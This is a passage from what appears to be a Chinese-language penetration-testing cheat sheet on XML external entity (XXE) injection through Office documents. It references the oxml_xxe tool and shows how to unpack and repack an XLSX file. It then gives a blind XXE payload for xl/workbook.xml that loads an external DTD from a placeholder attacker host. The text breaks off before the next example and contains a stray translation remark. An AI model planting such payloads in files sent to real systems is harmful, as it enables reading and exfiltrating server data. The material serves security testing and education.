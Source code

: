 工具：https://github.com/BuffaloWill/oxml_xxe

```xml
DOCX/XLSX/PPTX
ODT/ODG/ODP/ODS
SVG
XML
PDF（实验性）
JPG（实验性）
GIF（实验性）
```

### XLSX文件中的XXE

XLSX的结构：

```
$ 7z l xxe.xlsx
[...]
   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2021-10-17 15:19:00 .....          578          223  _rels/.rels
2021-10-17 15:19:00 .....          887          508  xl/workbook.xml
2021-10-17 15:19:00 .....         4451          643  xl/styles.xml
2021-10-17 15:19:00 .....         2042          899  xl/worksheets/sheet1.xml
2021-10-17 15:19:00 .....          549          210  xl/_rels/workbook.xml.rels
2021-10-17 15:19:00 .....          201          160  xl/sharedStrings.xml
2021-10-17 15:19:00 .....          731          352  docProps/core.xml
2021-10-17 15:19:00 .....          410          246  docProps/app.xml
2021-10-17 15:19:00 .....         1367          345  [Content_Types].xml
------------------- ----- ------------ ------------  ------------------------
2021-10-17 15:19:00              11216         3586  9 files
```

根据您提供的文档内容，以下是翻译：

提取Excel文件：`7z x -oXXE xxe.xlsx`

重建Excel文件：

```bash
$ cd XXE
$ 7z u ../xxe.xlsx *
```

在`xl/workbook.xml`中添加您的盲XXE有效载荷。

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE cdl [<!ELEMENT cdl ANY ><!ENTITY % asd SYSTEM "http://x.x.x.x:8000/xxe.dtd">%asd;%c;]>
<cdl>&rrr;</cdl>
<workbook xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships">
```

或者，在`xl/sharedStrings.xml`中添加您的有效载荷：
